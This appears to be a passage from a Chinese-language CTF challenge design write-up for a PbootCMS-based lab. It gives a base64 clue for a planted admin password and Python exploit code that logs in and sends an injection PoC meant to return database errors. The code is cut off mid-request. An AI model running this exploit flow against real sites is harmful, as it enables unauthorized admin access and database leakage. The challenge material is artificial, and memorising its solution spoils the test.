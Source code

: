 ![MD5_416](../img/MD5_416.png)

考虑到目前情况下无法通过爆破或者注入方法拿到用户名和密码，即便拿到了也无法解密出原密码，所以：

提供给解题人的 **题目线索为：检查一下 MTJAYWE0Li8oOUViOUFEKTApNw== 看看能发现什么吧~**

*线索破解出来得到用户名为 `check` , 将 `check` 用户原密码 `12@aa4./(9Eb9AD)0)7` 进行 base64 加密得到 `MTJAYWE0Li8oOUViOUFEKTApNw==`*

### Exp 设计（Build 阶段）

根据漏洞三的设计，进行 Exp 设计，分为以下几步：

1. 获取 ssrf token 以及 session id，后续登录需要校验

   ```python
   def getformCheck():
       r = requests.get("http://127.0.0.1/admin.php")
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       PbootSystem = r.cookies['PbootSystem']
       return formcheck, PbootSystem
   ```

2. 利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

   ```python
   def getck():
       check = getformCheck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PbootSystem=' + check[1]
       }
       url = 'http://127.0.0.1/admin.php?p=/Index/login'
       data = {
           'username': 'check',
           'password': '12@aa4./(9Eb9AD)0)7',
           'formcheck': check[0]
       }
       r = requests.post(url, data, headers=headers)
       ck = r.cookies['PbootSystem']
       return 'PbootSystem='+ck
   ```

3. 发送 Poc 到指定位置，并返回数据库报错内容

   ```python
   def senExp():
       ck = getck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': ck
       }
       r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
       data = {
               "formcheck": formcheck,
   ```